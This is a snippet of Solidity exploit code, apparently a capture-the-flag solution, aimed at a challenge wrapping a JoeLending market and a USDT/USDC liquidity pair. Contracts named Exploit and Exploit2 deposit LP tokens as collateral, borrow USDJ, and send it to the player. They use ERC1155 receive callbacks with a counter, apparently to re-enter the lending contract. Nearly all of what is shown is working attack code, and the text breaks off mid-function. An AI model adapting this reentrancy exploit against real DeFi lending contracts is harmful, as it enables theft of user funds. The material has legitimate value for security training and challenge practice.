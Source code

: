 ```solidity
        bytes calldata data
    ) external returns (bytes4) {
        return bytes4(keccak256("onERC1155Received(address,address,uint256,uint256,bytes)"));
    }

    function onERC1155BatchReceived(
        address operator,
        address from,
        uint256[] calldata ids,
        uint256[] calldata values,
        bytes calldata data
    ) external returns (bytes4) {
        revert("foo2");
        return bytes4(keccak256("onERC1155BatchReceived(address,address,uint256[],uint256[],bytes)"));
    }

    function exploit_pre() external {
        ILBPair pair = CHALLENGE.PAIR_USDT_USDC();
        JoeLending joe_lending = CHALLENGE.JOE_LENDING();

        uint256[] memory ids_init = new uint256[](1);
        ids_init[0] = pair.getActiveId();
        uint256[] memory amounts_init = new uint256[](1);
        pair.approveForAll(address(joe_lending), true);
        amounts_init[0] = pair.balanceOf(address(this), pair.getActiveId());
        joe_lending.deposit(ids_init, amounts_init);
    }

    function exploit_post(address player) external {
        ERC20 usdj = CHALLENGE.USDJ();
        JoeLending joe_lending = CHALLENGE.JOE_LENDING();
        ILBPair pair = CHALLENGE.PAIR_USDT_USDC();
        uint256[] memory ids_init = new uint256[](1);
        ids_init[0] = pair.getActiveId();
        uint256[] memory amounts_init = new uint256[](1);
        amounts_init[0] = 1000e18;
        joe_lending.borrow(ids_init, amounts_init);
        usdj.transfer(player, usdj.balanceOf(address(this)));
    }
}

contract Exploit {
    Challenge private immutable CHALLENGE;
    Exploit2 private immutable EXPLOIT2;
    uint256 private counter;

    constructor(Challenge challenge) {
        CHALLENGE = challenge;
        EXPLOIT2 = new Exploit2(challenge);
    }

    receive() external payable {}

    function onERC1155Received(
        address operator,
        address from,
        uint256 id,
        uint256 value,
        bytes calldata data
    ) external returns (bytes4) {
        counter++;

```